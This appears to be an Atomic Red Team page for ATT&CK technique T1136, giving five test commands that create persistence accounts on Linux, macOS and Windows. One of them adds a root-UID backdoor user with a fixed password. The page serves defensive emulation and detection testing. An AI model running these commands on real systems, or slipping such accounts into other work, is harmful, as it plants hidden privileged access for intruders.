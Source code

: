 # T1136 - Create Account
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1136)
<blockquote>Adversaries with a sufficient level of access may create a local system, domain, or cloud tenant account. Such accounts may be used for persistence that do not require persistent remote access tools to be deployed on the system.

In cloud environments, adversaries may create accounts that only have access to specific services, which can reduce the chance of detection.

### Windows

The <code>net user</code> commands can be used to create a local or domain account.

### Office 365

An adversary with access to a Global Admin account can create another account and assign it the Global Admin role for persistent access to the Office 365 tenant.(Citation: Microsoft O365 Admin Roles)(Citation: Microsoft Support O365 Add Another Admin, October 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a user account on a Linux system](#atomic-test-1---create-a-user-account-on-a-linux-system)

- [Atomic Test #2 - Create a user account on a MacOS system](#atomic-test-2---create-a-user-account-on-a-macos-system)

- [Atomic Test #3 - Create a new user in a command prompt](#atomic-test-3---create-a-new-user-in-a-command-prompt)

- [Atomic Test #4 - Create a new user in PowerShell](#atomic-test-4---create-a-new-user-in-powershell)

- [Atomic Test #5 - Create a new user in Linux with `root` UID and GID.](#atomic-test-5---create-a-new-user-in-linux-with-root-uid-and-gid)


<br/>

## Atomic Test #1 - Create a user account on a Linux system
Create a user via useradd

**Supported Platforms:** Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| comment | Comment to record when creating the user | String | Evil Account|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 
```
useradd -M -N -r -s /bin/bash -c evil_account #{username}
```

#### Cleanup Commands:
```
userdel #{username}
```





<br/>
<br/>

## Atomic Test #2 - Create a user account on a MacOS system
Creates a user on a MacOS system with dscl

**Supported Platforms:** macOS


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| realname | 'realname' to record when creating the user | String | Evil Account|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 
```
dscl . -create /Users/#{username}
dscl . -create /Users/#{username} UserShell /bin/bash
dscl . -create /Users/#{username} RealName "#{realname}"
dscl . -create /Users/#{username} UniqueID "1010"
dscl . -create /Users/#{username} PrimaryGroupID 80
dscl . -create /Users/#{username} NFSHomeDirectory /Users/#{username}
```

#### Cleanup Commands:
```
dscl . -delete /Users/#{username}
```





<br/>
<br/>

## Atomic Test #3 - Create a new user in a command prompt
Creates a new user in a command prompt

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136_CMD|
| password | Password of the user to create | String | T1136_CMD!|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
net user /add "#{username}" "#{password}"
```

#### Cleanup Commands:
```
net user /del "#{username}"
```





<br/>
<br/>

## Atomic Test #4 - Create a new user in PowerShell
Creates a new user in PowerShell

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136_PowerShell|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
New-LocalUser -Name "#{username}" -NoPassword
```

#### Cleanup Commands:
```
Remove-LocalUser -Name "#{username}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Create a new user in Linux with `root` UID and GID.
Creates a new user in Linux and adds the user to the `root` group. This technique was used by adversaries during the Butter attack campaign.

**Supported Platforms:** Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | butter|
| password | Password of the user to create | String | BetterWithButter|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 
```
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash #{username}
echo "#{password}" | passwd --stdin #{username}
```

#### Cleanup Commands:
```
userdel #{username}
```





<br/>

